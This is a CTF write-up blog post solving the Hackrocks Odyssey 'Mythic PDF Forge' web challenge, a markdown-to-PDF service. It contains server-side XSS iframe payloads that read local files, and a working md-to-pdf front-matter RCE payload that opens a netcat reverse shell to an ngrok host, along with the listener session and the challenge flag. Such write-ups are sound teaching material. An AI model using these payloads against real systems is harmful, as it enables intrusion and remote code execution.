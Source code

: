 ```yaml
---
title: Odyssey CTF - Mythic PDF Forge
date: Sun Jul 23 04:43:32 PM +04 2023
categories: [Writeup]
tags: [ctf,hackrocksctf,odysseyctf,web]
---
```


## Description

We as developers love markdown but our non dev friends don't. **Convert Your Markdown to PDF** and send them easily :)

To access the challenge, click on the following link:  <http://challenges.hackrocks.com:33333/>

### Analysis

We are given application that converts markdown to pdf, so let's try using `script` tags to do something.

![mystic-pdf-forge-1](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-1.png)

Generated PDF content: 

![mystic-pdf-forge-2](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-2.png)

Nice, there's no sanitazation on markdown so we can do whatever.<br>
HackerTricks has useful stuff for us [Server Side XSS Dynamic PDF](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf).

I used discovery payload `<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>` to see what files are there.

![mystic-pdf-forge-3](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-3.png)

We dont get information about what files are listed in directory. So let's try guessing. There's a standard to name application file `index.js` or `app.js`.

```html
<script>
    document.write(`
    <iframe 
        src="${window.location.href}/index.js" 
        style="position:fixed; top:0; left:0; width:100%; height:100%; z-index:1;">
    </iframe>
    `) 
</script>
```

0w0

![mystic-pdf-forge-4](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-4.png)

We identifed that `md-to-pdf` is being used, and quick google search shows us [RCE vulnerability](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880). Let's not jump straight to exploit, let's first find version of packages. Node stores module versions in `package.json`

```html
<script>
    document.write(`
    <iframe 
        src="${window.location.href}/package.json" 
        style="position:fixed; top:0; left:0; width:100%; height:100%; z-index:1;">
    </iframe>
    `) 
</script>
```

![mystic-pdf-forge-5](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-5.png)

We are good to proceed. Let's get shell! 0w0

## Solution

___Simple:___ 

```html
<script>
document.write(`<iframe src="${window.location.href}/flag.txt"></iframe>`)
</script>
```

___Fun!___ (Idk I just wanted to try getting shell from remote machine to local, ~~real life scenario?)

We need 2 things:
1. Listener - simple netcat will do
2. Server - to let challenge server connect to us. netcat opens port locally, we need globally and [ngrok](https://ngrok.com) can do it for us. 

```bash
$ nc -lvnp <port> # Terminal 1

$ ngrok tcp <port> # Terminal 2
```

![mystic-pdf-forge-6](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-6.png)

Create reverse shell. I generated it using [revshells](https://www.revshells.com). (I couldnt make `sh` shell work, so I ended up with netcat shell payload)

```html
---js
((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ngrok_server> <ngrok_port> >/tmp/f"))
---
```

Server hangs and boom! we get a shell. Pretty cool for first time experience.

```bash
└─$ nc -lvnp 4444 # Local Port Can Be Anything You Want
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48168
sh: cant access tty; job control turned off
/app $ ls
Dockerfile
deploy-dcompose.sh
deploy-docker.sh
docker-compose.yml
flag.txt
index.html
index.js
node_modules
package-lock.json
package.json
pnpm-lock.yaml
public
views
/app $ cat flag.txt
flag{un1esh_t4e_f0rge_666f726765} 
```

> Flag flag{un1esh_t4e_f0rge_666f726765} 
{: .prompt-tip }